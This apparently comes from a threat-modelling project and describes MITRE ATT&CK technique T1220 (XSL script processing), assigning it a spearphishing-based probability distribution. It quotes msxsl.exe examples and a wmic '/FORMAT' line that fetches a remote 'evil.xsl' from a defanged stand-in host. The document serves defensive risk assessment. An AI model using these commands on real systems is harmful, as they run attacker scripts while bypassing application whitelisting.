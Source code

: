 # XSL Script Processing https://attack.mitre.org/techniques/T1220/

## Context 

Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. [1]

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to Trusted Developer Utilities, the Microsoft common line transformation utility binary (msxsl.exe) [2] can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. [3] Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. [4] Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.[5]

Command-line examples:[3][5]

msxsl.exe customers[.]xml script[.]xsl
msxsl.exe script[.]xsl script[.]xsl
msxsl.exe script[.]jpeg script[.]jpeg
Another variation of this technique, dubbed "Squiblytwo", involves using Windows Management Instrumentation to invoke JScript or VBScript within an XSL file.[6] This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize the /FORMAT switch.[5]

Command-line examples:[5][6]

Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"

This technique needs a probability distribution in order to assess the prevalence of the adversary delivering the msxsl.exe to the user for installation. 

## Relevant findings

https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/
The main way of delivering the msxsl.exe for installation is via spearphishing. 

## Result 

We assess the probability distribution to be the same as for Spearphishing via Email [Bernoulli(0.712)*Exponential(1)].

## Discussion

We could, instead of adding the same probability distribution every time spearphishing is a way of delivering payload add it as parent. (same goes for Compiled HTML File) This might already (indirectly) be the case but I couldn't find a way of making sure of this (the graph is too big to be explored manually)